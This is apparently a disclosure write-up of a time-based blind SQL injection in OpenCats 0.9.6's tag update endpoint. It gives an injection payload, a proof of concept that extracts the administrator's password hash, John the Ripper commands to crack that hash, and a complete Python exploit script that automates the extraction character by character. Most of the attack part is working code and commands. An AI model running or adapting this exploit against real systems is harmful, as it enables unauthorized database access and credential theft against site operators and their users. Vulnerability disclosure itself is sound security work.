 # SQL injection vulnerability in OpenCats 'Tag' update functionality.

OpenCats version 0.9.6 PHP7.2 suffers from SQL injection vulnerability. This allows attackers control over the application's database.

User has control over tag_id variable, which allows SQL injection in UPDATE statement via time-based/blind techniques.

Application builds the following query:  
`UPDATE tag SET title = 'Title', description = 'Description' WHERE tag_id = XXX AND site_id = 1;`

User has control over XXX part.  

`1337 OR 1337=(select IF(substr(database(),1,1)='a',(select sleep(3)), (select sleep(1)))))`  

With this payload, application will sleep for 3 seconds for every entry inside original table if the database() query result starts with 'a', otherwise
it will sleep for one second.

With this time-based blind technique, attacker is able to exfiltrate any information from the database by querying many YES/NO questions 
to the database and intelligently measuring response times.

# POC
This proof of concept exfiltrates administrator user's password hash:   
`(select password from user where user_id=1)`

![PoC](https://user-images.githubusercontent.com/57464251/193683971-60bceb48-21fe-49fb-8a1d-d522383b8ec0.png)

### Bonus, let's crack the hash

`echo "password:21232f297a57a5a743894a0e4a801fc3" > hash.txt`  
`john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hash.txt`  

![crack](https://user-images.githubusercontent.com/57464251/193794575-b6677cdd-4f13-41ab-8299-5b7ca7616e81.PNG)


# xploit.py!

```python
import requests
import string
import sys

def inRange(rTime, averageTime, sleepAmount):
    if(rTime > sleepAmount and rTime < rTime + (averageTime*20/100) and rTime > rTime - (averageTime*20/100)):
        return True
    else: return False

headers = {}
proxies = {}
#proxies["http"] = "http://127.0.0.1:8080"

#Login and get session cookie..
#Change this
headers["Cookie"] = "CATS=cl2201l24aihqlnch0jgnr4pd2"
url = "http://192.168.203.135/opencats/index.php?m=settings&a=ajax_tags_upd"

#Prepare Content-Type for POST request compability
headers["Content-Type"] = "application/x-www-form-urlencoded"
#Prepare POST parameter 'tag_id'
postdata = "tag_id=PWN&tag_title=test"

#Change this depending on the endpoint
tempPayload = "1 OR 1=(sleep(3))"

print("Sending few request to determine average response time...")

timeSum = 0
numberOfBaselineRequests = 5
for i in range(numberOfBaselineRequests):
    try:
        rTest = requests.post(url, headers = headers, data=postdata.replace('PWN','1337'), proxies = proxies) 
        timeSum  += rTest.elapsed.total_seconds()
        if('<form name="loginForm"' in rTest.text):
            print("Session cookie not valid, change it inside .py")
            sys.exit(-1)
    except:
        print("Some exception ocurred while sending or receiving data from the application. Make sure IP is good. Exiting..")
        sys.exit(-1)

averageTime = timeSum/numberOfBaselineRequests
print("Average response time for " + str(numberOfBaselineRequests) + " requests is : " + str(averageTime))

print("\nTrying to inject sleep(3)")
r = requests.post(url, headers = headers, data = postdata.replace('PWN',tempPayload), proxies = proxies)
rTime = r.elapsed.total_seconds()
print("Response time: " + str(rTime))

if(inRange(rTime, averageTime, 3)):
    print("\n[+] Application is vulnerable to SQL injection...")

#Getting value for false statement -> sleep(1)
tempPayload2 = "1 or 1=(sleep(0.1))"
r2 = requests.post(url, headers = headers, data = postdata.replace('PWN',tempPayload2), proxies = proxies)
t_sleep_one = r2.elapsed.total_seconds()

tempPayload3 = "1 or 1=(sleep(0.3))"
r3 = requests.post(url, headers = headers, data=postdata.replace('PWN', tempPayload3), proxies = proxies)
t_sleep_three = r3.elapsed.total_seconds()

print("False statement time: " + str(t_sleep_one))
print("True statement time: " + str(t_sleep_three) + "\n")

length = 0
exfilQuery = "1 OR 1=(IF(length((select password from user where user_id=1))='XXX',sleep(0.3),sleep(0.1)))"
#Determine length of the result that we want. i.e select passwrod from user query...
print("Determining the result length of our query...")

while(True):
    q = exfilQuery.replace('XXX', str(length))
    r = requests.post(url, headers = headers, data = postdata.replace('PWN', q))
    time = r.elapsed.total_seconds()

    #If sleep(3) gets executed, we have correct length
    if(time > (t_sleep_one+(t_sleep_one*20/100))):
        print("Got length " + str(length))
        break
    
    length += 1
    if(length == 1000):
        break
    
if(length == 0 or length == 1000):
    print("Something is wrong. Exiting...")
    sys.exit(-1)
else: print("Length of '(select password from user where user_id=1)' query: " + str(length))

#OK----|
alphanumerics = list(string.ascii_lowercase + string.digits)
exfilQuery = "1 OR 1=(IF(substr((select password from user where user_id=1),YYY,1) = 'XXX',sleep(0.3), sleep(0.1)))"

data = []
print("Exfiltrating data. Query: (select password from user where user_id=1). Patience...")

for i in range(length):
    for item in alphanumerics:
        q = exfilQuery.replace('XXX',str(item))
        q = q.replace('YYY',str(i+1))
        r = requests.post(url, headers = headers, data = postdata.replace('PWN',q), proxies = proxies)
        time = r.elapsed.total_seconds()
        #print(str(time) + "\n")
        if(time > (t_sleep_one+(t_sleep_one*20/100))):
            print(str(i+1) + ". Letter = " + item)
            data.append(item)
            break

print("(select password from user where user_id=1) -> " + "".join(data))
```
